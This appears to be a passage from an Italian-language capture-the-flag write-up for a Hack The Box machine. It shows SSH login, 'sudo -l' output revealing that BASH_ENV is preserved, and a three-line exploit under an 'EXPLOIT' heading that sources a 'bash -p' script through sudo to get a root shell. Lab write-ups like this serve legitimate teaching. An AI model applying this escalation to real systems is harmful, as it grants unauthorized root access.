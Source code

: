 Usando la password di environment.htb entro in SSH.

lancio `sudo -l`:

```
hish@environment:~$ sudo -l
[sudo] password for hish: 
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```

**env_keep+="ENV BASH_ENV"** posso mantenere i permessi di ambiente:

## EXPLOIT

echo 'bash -p' > esp.sh  
chmod +x esp.sh
sudo BASH_ENV=./esp.sh /usr/bin/systeminfo


